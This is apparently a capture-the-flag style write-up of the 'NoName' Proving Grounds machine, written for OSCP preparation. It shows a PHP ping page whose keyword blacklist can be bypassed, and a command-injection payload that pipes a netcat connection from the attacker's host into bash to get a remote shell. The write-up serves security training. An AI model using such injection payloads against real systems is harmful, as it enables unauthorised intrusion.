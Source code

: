 ```yaml
---
title: NoName Medium box on Offensive Security Proving Grounds - OSCP Preparation.
tags: [oscp medium box, PG medium box, enumeration, rce, misc, privilege escalation, suid, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2021-12-22 09:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `NoName` and this post is not a fully detailed walkthrough, I will just go through the important points during the exploit process.

## Enumeration:
- Nmap:
![image](../../assets/img/sample/pg-noname/nmap.png)

### Getting RCE:
- We can `ping` IPs on that page: http://noname.pg/superadmin.php
- Not all the commands we try to run  actually get executed on the target like `ls`:
![image](../../assets/img/sample/pg-noname/ls.png)

- But we can list the files on the current directory using `echo *`:
![image](../../assets/img/sample/pg-noname/echo.png)

- Reading the source code of `superadmin.php` file:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```
* As you can see there's a blacklist commands that we can't use: `";","&&","/","bin","&"," &&","ls","nc","dir","pwd"`

- Let's get a shell:
1. Create a local file with a payload to be executed on the target, then passing that file to a netcat listener:
![image](../../assets/img/sample/pg-noname/send-shell.png)
2. Connecting to our netcat from the remote target and passing the output to bash:
    > The payload: ```||netcat 192.168.49.137 9090|`which bash` ```
![image](../../assets/img/sample/pg-noname/nc.png)
3. We Got a shell:
![image](../../assets/img/sample/pg-noname/rce.png)


## Privilege Escalation:
- LinEnum:

![image](../../assets/img/sample/pg-noname/linenum.png)

- Exploit:

![image](../../assets/img/sample/pg-noname/root.png)


Happy Hacking!
